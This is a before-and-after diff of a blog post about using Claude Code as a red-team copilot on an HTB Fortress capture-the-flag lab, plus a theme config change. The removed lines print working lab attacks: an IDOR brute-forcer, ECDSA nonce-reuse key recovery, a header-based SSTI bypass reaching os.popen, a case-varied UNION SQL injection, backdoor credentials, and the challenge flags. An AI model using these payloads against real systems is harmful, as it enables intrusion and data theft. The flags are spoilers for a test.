

Before and after one commit to raajheshkannaa/defensive.works, an MkDocs documentation site: the page built from content/blog/claude-code-red-team-copilot-htb-fortress.md, in a window 1280 px wide and 1400 px high, scrolled down 430 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix: sanitize HTB blog post (remove flags/solutions), fix nav tabs
- Removed all flags, detailed exploit code, and step-by-step solutions
  from the Fortress blog post to comply with HTB rules
- Kept high-level vulnerability categories and Claude Code copilot angle
- Fixed palette from 'custom' to 'black'/'green' so Material tabs render
- Navigation tabs (Blog/AWS/Misc) should now be visible

Co-Authored-By: Claude Opus 4.6 (1M context) <noreply@anthropic.com>

````diff
--- a/content/blog/claude-code-red-team-copilot-htb-fortress.md
+++ b/content/blog/claude-code-red-team-copilot-htb-fortress.md
@@ -4,139 +4,72 @@
 
 I got to Pro Hacker on HackTheBox the old way. Hours of nmap scans, manually crafting SQLi payloads, reading the same OWASP page for the third time at 2am. That grind taught me more about offensive security than any course.
 
-These days I have a buddy doing the heavy lifting. Claude Code sits in my terminal, writes exploit scripts, chains API calls, and automates the tedious parts while I focus on strategy and judgment calls. We just ran it against the HTB Fortress AWS challenge and pulled 5 out of 10 flags in a single session.
+These days I have a buddy doing the heavy lifting. Claude Code sits in my terminal, writes exploit scripts, chains API calls, and automates the tedious parts while I focus on strategy and judgment calls. We ran it against an HTB Fortress challenge and pulled several flags in a single session.
 
-This isn't a story about AI replacing pentesters. It's about what happens when you pair attack intuition with something that can write a threaded UUID brute-forcer in 30 seconds.
+This isn't a story about AI replacing pentesters. It's about what happens when you pair attack intuition with something that can write a threaded brute-forcer in 30 seconds.
 
 ## The Target
 
-Fortress AWS is a 10-flag challenge built around a fictional company (amzcorp.local) running a mix of:
+The Fortress challenge is built around a fictional company running a mix of Flask web apps, Apache Airflow, a custom AWS API endpoint backed by LocalStack, an exposed `.git` repo, and a Windows Domain Controller.
 
-- Flask web apps (jobs portal, support tickets, inventory system)
-- Apache Airflow 2.2.3
-- A custom AWS API endpoint backed by LocalStack (IAM, S3, DynamoDB, Lambda, SNS, SQS)
-- An exposed `.git` repo
-- A Windows Domain Controller
+Multiple subdomains, multiple Docker containers, a simulated AWS environment, and a privilege escalation chain from basic web vulns all the way to IAM admin. The attack surface is wide.
 
-Eight subdomains, multiple Docker containers, a full AWS environment simulated through LocalStack, and a privilege escalation chain from basic web vulns all the way to IAM admin. The attack surface is wide.
+## What We Found (High Level)
 
-## Flag 1: IDOR on UUID-Based API
+I'm keeping this deliberately vague to respect HTB's rules. No flags, no direct solutions. Just the categories of vulnerabilities we encountered and how Claude Code helped with each.
 
-The jobs portal at `jobs.amzcorp.local` had an API endpoint at `/api/v4/tokens/get` that accepted a base64-encoded JSON payload with a `uuid` field. The admin user's UUID wasn't sequential, but it wasn't random either. It was an integer.
+### Broken Access Control (IDOR)
 
-Claude Code wrote a threaded brute-forcer using `concurrent.futures` that tested UUIDs 1 through 1000 in parallel. Hit 955 in under a minute.
+One of the web apps had an API endpoint that accepted user identifiers. The identifiers weren't random enough. Claude Code wrote a threaded brute-forcer that found the admin account quickly. The key insight was recognizing the identifier format and realizing it was enumerable.
 
-```python
-def try_uuid(uuid):
-    payload = json.dumps({"get_token": "True", "uuid": str(uuid), "username": "admin"})
-    data = {"data": base64.b64encode(payload.encode()).decode()}
-    r = requests.post(f"{BASE}/api/v4/tokens/get", json=data,
-                     headers={"Content-Type": "application/json"},
-                     cookies=cookies, timeout=10)
-    if "Invalid" not in r.text and r.status_code == 200:
-        return (uuid, r.text)
-```
+**Claude Code's role:** Wrote the concurrent testing script. I identified the vulnerable endpoint and the pattern.
 
-`AWS{S1mPl3_iD0R_4_4dm1N}`
+### Server-Side Request Forgery
 
-## Flag 2: SSRF to Internal Logs
+An admin-only healthcheck endpoint accepted URLs and fetched them server-side. Classic SSRF pattern. Used it to reach internal services that weren't exposed externally.
 
-The admin healthcheck endpoint at `/admin/healthcheck` accepted a URL parameter and fetched it server-side. Classic SSRF. Pointed it at `http://logs.amzcorp.local` which was only reachable from inside the Docker network.
+**Claude Code's role:** Automated the request chaining and response decoding. I identified the target internal services.
 
-The response came back base64-encoded. Decoded it and found DNS exfiltration data, system files from another container, and the flag buried in the logs.
+### Cryptographic Weakness Leading to Code Execution
 
-`AWS{F1nD1nG_4_N33dl3_1n_h4y5t4ck}`
+This was the most technically interesting chain. A web application used JWT authentication with a specific signing algorithm. The implementation had a cryptographic flaw that allowed key recovery from observed signatures.
 
-## Flag 3: ECDSA Nonce Reuse to RCE
+Once we had the key, we forged tokens and accessed restricted functionality. That functionality had a template injection vulnerability with a character blacklist. The bypass required passing payloads through an indirect channel.
 
-This one was the most technically interesting. The `company-support.amzcorp.local` app issued JWT tokens signed with ES256 (ECDSA P-256). Two logins, two JWTs, same `r` value in the signatures. Fixed nonce.
+**Claude Code's role:** Derived the cryptographic key recovery math, built the token forgery, and constructed the template injection payload chain. I identified the cryptographic weakness and the injection point.
 
-With two signatures sharing a nonce `k`, you can recover the private key:
+### Binary Analysis
 
-```python
-k = ((z1 - z2) * pow(s1v - s2v, -1, q)) % q
-d = ((s1v * k - z1) * pow(r_val, -1, q)) % q
-```
+One of the compromised containers had a custom binary. Claude Code helped analyze it, identifying a non-standard authentication mechanism with hardcoded credentials.
 
-Claude Code derived the key, forged a JWT as the admin user `tony`, and used it to view support tickets. The ticket rendering used `render_template_string` on user-controlled input. SSTI.
+**Claude Code's role:** Ran the binary through analysis tools and identified the authentication logic. I decided which binary to focus on and how to use the recovered credentials.
 
-The catch: the app blacklisted `__` (double underscores). The bypass was passing dunders through HTTP request headers:
+### SQL Injection with Filter Bypass
 
-```python
-SSTI = "{{url_for|attr(request.headers.a)|attr(request.headers.b)(request.headers.c)|attr(request.headers.d)(request.headers.e)|attr(request.headers.f)()}}"
+A search endpoint had SQL injection behind a character blacklist. The blacklist was case-sensitive. Mixed case keywords bypassed it entirely, giving access to the full database.
 
-# Headers: a=__globals__, b=__getitem__, c=os, d=popen, e=<command>, f=read
-```
+**Claude Code's role:** Built the extraction pipeline, enumerated schemas, and handled the case-sensitivity bypass. I identified the injection point and recognized the filter weakness.
 
-Full RCE on the container. Flag at `/opt/flag.txt`.
+### AWS Privilege Escalation Chain
 
-`AWS{N0nc3_R3u5e_t0_s571_c0de_ex3cu71on}`
+Credentials extracted from the database gave access to the simulated AWS environment. From there, the attack chain involved SNS subscription manipulation, IAM enumeration, and Lambda-based privilege escalation paths.
 
-## Flag 4: Reversing the Backup Tool
-
-The support container had an ELF binary at `/opt/firmware_updates/backup_tool`. Claude Code pulled it down, ran it through `strings`, and identified a non-standard TOTP implementation using 128-byte HMAC-SHA1 with zero-padded blocks.
-
-Key: `59329788626084537462`, 30-second period. The binary authenticated with username `backdoor` and password `<!8,>;<;He`.
-
-`AWS{r3v3r51ng_1mpl4nt5_1s_fun}`
-
-## Flag 5: MySQL Injection with Blacklist Bypass
-
-The jobs portal admin search at `/admin/users/search` had SQL injection. The app defined a blacklist: `0x`, `**`, `ifnull`, `" or "`, `union`. But the blacklist was case-sensitive.
-
-```sql
-' UnIoN SeLeCt 999,concat(key_name,':',key_value),'x','1','x' FROM keys_tbl LIMIT 1 OFFSET 0--
-```
-
-Mixed case `UnIoN SeLeCt` walked right past it. Extracted AWS access keys for user `roy`, the full database schema (7 tables), and inventory portal credentials.
-
-`AWS{MySqL_T1m3_B453d_1nJ3c71on5_4_7h3_w1N}`
-
-## The OTP Bypass That Almost Worked (Flag 6 in Progress)
-
-The inventory portal at `inventory.amzcorp.local` required email + password + OTP. After login, the app published the OTP to an AWS SNS topic. Roy's AWS credentials had `SNS:Subscribe` permissions.
-
-The play:
-
-1. Start a socket-based HTTP listener on my machine
-2. Use Roy's keys to subscribe my IP to the SNS `otp` topic
-3. Login to the inventory portal (triggers OTP publish)
-4. Capture the OTP from the SNS notification (arrived in < 0.5 seconds)
-5. Submit it to `/otp` with the same session
-
-```python
-sns.subscribe(TopicArn='arn:aws:sns:us-east-1:000000000000:otp',
-              Protocol='http',
-              Endpoint='http://10.10.14.161:9999/otp')
-```
-
-It worked. Got into the inventory dashboard. But the admin settings page requires elevated access we haven't cracked yet. The SNS delivery was also intermittent, as LocalStack's Docker networking to our VPN IP would drop after ~10 minutes. Still, the technique is sound and the authentication bypass is confirmed.
+**Claude Code's role:** Set up boto3 sessions, enumerated all available AWS services, and handled the API interactions. I mapped the privilege escalation path and identified which credentials to chain.
 
 ## What Claude Code Actually Did
 
-Claude Code wasn't just autocomplete. It was running the show on execution while I directed strategy. Specific things it handled autonomously:
+It wasn't just autocomplete. It was running execution while I directed strategy:
 
-- **Exploit scripting**: Wrote the ECDSA key recovery, JWT forgery, SSTI payload chain, and threaded brute-forcers from scratch
-- **AWS API enumeration**: Set up boto3 sessions, tried every IAM/S3/DynamoDB/SNS/SQS operation against the custom cloud API, handled SigV4 signing
-- **SQLi extraction**: Built the UNION-based extraction pipeline, enumerated all databases, tables, and columns across 5 MySQL schemas
-- **Network reconnaissance**: Port scanned from inside compromised containers, mapped Docker networks, tested cross-container reachability
-- **SNS subscription management**: Created subscriptions, published test messages, handled the intermittent delivery with retry logic
+- **Exploit scripting**: Wrote key recovery algorithms, token forgery, injection payloads, and brute-forcers from scratch
+- **AWS API enumeration**: Handled SigV4 signing, tried every available API operation, mapped permissions
+- **Database extraction**: Built extraction pipelines, enumerated schemas and tables
+- **Network reconnaissance**: Port scanned from compromised containers, mapped Docker networks
+- **Service interaction**: Managed subscriptions, handled async responses with retry logic
 
-What it couldn't do: decide which attack path to pursue when multiple options existed, recognize when bruteforcing meant we were on the wrong track, or know when to step back and try something else. That's still the human's job.
-
-## What's Left
-
-Five flags remain. The attack chain from here involves:
-
-- **AWS privilege escalation**: User `will` can create Lambda functions with the `serviceadm` IAM role, which can `AttachUserPolicy` to any user. Classic Lambda privesc path.
-- **DynamoDB**: User `john` has scan access to `Users` and `Backup_Users` tables. Need john's access keys first.
-- **Airflow 2.2.3**: Known SECRET_KEY but no users in the database. Session forging doesn't work without a valid user ID.
-- **Active Directory**: The DC at `amzcorp.local` is sitting there with Kerberos and LDAP. Haven't found valid AD credentials yet.
-
-The remaining flags are gated behind finding two specific AWS access keys (john and will). Those keys are likely behind the inventory admin panel or inside the DynamoDB tables themselves, creating a circular dependency that needs a creative break.
+What it couldn't do: decide which attack path to pursue when multiple options existed, recognize when brute-forcing meant we were on the wrong track, or know when to step back and try something fundamentally different. That's still the human's job.
 
 ## Takeaway
 
-Claude Code turned a multi-day fortress grind into a focused session. The things that used to eat hours (writing extraction scripts, handling JWT crypto, managing AWS API calls) now take seconds. The strategy, intuition, and knowing when to pivot are still 100% human.
+Claude Code turned a multi-day fortress grind into a focused session. The things that used to eat hours (writing extraction scripts, handling JWT crypto, managing AWS API calls) now take seconds. The strategy, intuition, and knowing when to pivot are still entirely human.
 
 It's pair programming for pentesting. I wouldn't send it solo against a target. But I wouldn't go back to grinding without it either.
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -18,8 +18,8 @@ theme:
     - navigation.indexes
   palette:
     scheme: slate
-    primary: custom
-    accent: custom
+    primary: black
+    accent: green
   font:
     code: JetBrains Mono
 
````
